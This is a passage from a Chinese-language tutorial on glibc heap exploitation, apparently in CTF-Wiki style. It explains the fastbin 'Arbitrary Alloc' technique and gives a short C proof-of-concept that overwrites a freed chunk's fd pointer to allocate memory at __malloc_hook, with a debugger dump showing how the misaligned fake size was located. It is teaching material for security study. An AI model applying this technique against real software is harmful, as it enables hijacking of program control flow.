 
### 小总结 

通过该技术我们可以把 fastbin chunk 分配到栈中，从而控制返回地址等关键数据。要实现这一点我们需要劫持 fastbin 中 chunk 的 fd 域，把它指到栈上，当然同时需要栈上存在有满足条件的 size 值。

## Arbitrary Alloc

### 介绍 

Arbitrary Alloc 其实与 Alloc to stack 是完全相同的，唯一的区别是分配的目标不再是栈中。 事实上只要满足目标地址存在合法的 size 域（这个 size 域是构造的，还是自然存在的都无妨），我们可以把 chunk 分配到任意的可写内存中，比如 bss、heap、data、stack 等等。

### 演示 

在这个例子，我们使用字节错位来实现直接分配 fastbin 到**_malloc_hook 的位置，相当于覆盖_malloc_hook 来控制程序流程。**

```
int main(void)
{


    void *chunk1;
    void *chunk_a;

    chunk1=malloc(0x60);

    free(chunk1);

    *(long long *)chunk1=0x7ffff7dd1af5-0x8;
    malloc(0x60);
    chunk_a=malloc(0x60);
    return 0;
}
```

这里的 0x7ffff7dd1af5 是我根据本机的情况得出的值，这个值是怎么获得的呢？首先我们要观察欲写入地址附近是否存在可以字节错位的情况。

```
0x7ffff7dd1a88 0x0  0x0 0x0 0x0 0x0 0x0 0x0 0x0
0x7ffff7dd1a90 0x0  0x0 0x0 0x0 0x0 0x0 0x0 0x0
0x7ffff7dd1a98 0x0  0x0 0x0 0x0 0x0 0x0 0x0 0x0
0x7ffff7dd1aa0 0x0  0x0 0x0 0x0 0x0 0x0 0x0 0x0
0x7ffff7dd1aa8 0x0  0x0 0x0 0x0 0x0 0x0 0x0 0x0
0x7ffff7dd1ab0 0x0  0x0 0x0 0x0 0x0 0x0 0x0 0x0
0x7ffff7dd1ab8 0x0  0x0 0x0 0x0 0x0 0x0 0x0 0x0
0x7ffff7dd1ac0 0x0  0x0 0x0 0x0 0x0 0x0 0x0 0x0
0x7ffff7dd1ac8 0x0  0x0 0x0 0x0 0x0 0x0 0x0 0x0
0x7ffff7dd1ad0 0x0  0x0 0x0 0x0 0x0 0x0 0x0 0x0
0x7ffff7dd1ad8 0x0  0x0 0x0 0x0 0x0 0x0 0x0 0x0
0x7ffff7dd1ae0 0x0  0x0 0x0 0x0 0x0 0x0 0x0 0x0
0x7ffff7dd1ae8 0x0  0x0 0x0 0x0 0x0 0x0 0x0 0x0
0x7ffff7dd1af0 0x60 0x2 0xdd 0xf7 0xff 0x7f 0x0 0x0
0x7ffff7dd1af8 0x0  0x0 0x0 0x0 0x0 0x0 0x0 0x0
0x7ffff7dd1b00 0x20 0x2e 0xa9 0xf7 0xff 0x7f 0x0 0x0
0x7ffff7dd1b08 0x0  0x2a 0xa9 0xf7 0xff 0x7f 0x0 0x0
0x7ffff7dd1b10 <__malloc_hook>: 0x30    0x28    0xa9    0xf7    0xff    0x7f    0x0 0x0
```
